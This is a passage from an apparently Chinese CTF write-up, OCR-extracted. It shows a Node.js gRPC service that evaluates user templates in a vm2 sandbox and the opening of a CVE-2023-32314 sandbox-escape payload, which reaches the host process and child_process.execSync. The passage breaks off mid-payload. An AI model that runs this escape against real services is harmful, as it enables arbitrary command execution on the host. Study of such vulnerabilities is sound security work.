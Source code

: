 ```js
    });

var hello_proto = grpc.loadPackageDefinition(packageDefinition).helloworld;

  
  

function evalTemplate(call, callback) {

    const vm = new VM();

    callback(null, {message:    vm.run(call.request.template) });

}

  
  

function main() {

    var server = new grpc.Server();

    server.addService(hello_proto.Demo.service, {evalTemplate: evalTemplate});

    server.bindAsync('0.0.0.0:8082', grpc.ServerCredentials.createInsecure(), () => {

        server.start();

    });

}

main()

}
```

CVE直接打[Vm2沙箱逃逸漏洞复现(CVE-2023-32314)_nodejs vm2-CSDN博客](https://blog.csdn.net/qq_41904294/article/details/130769009).
但是要写好grpc的交互，和协议的定义文件
```js
template = `const err = new Error();

err.name = {

    toString: new Proxy(() => "",{

    apply(target,thiz,args){

    const process = args.constructor.constructor("return process")();

    throw process.mainModule.require("child_process").execSync("").toString();

    },

}),

};

try{

    err.stack;

}catch(stdout){
```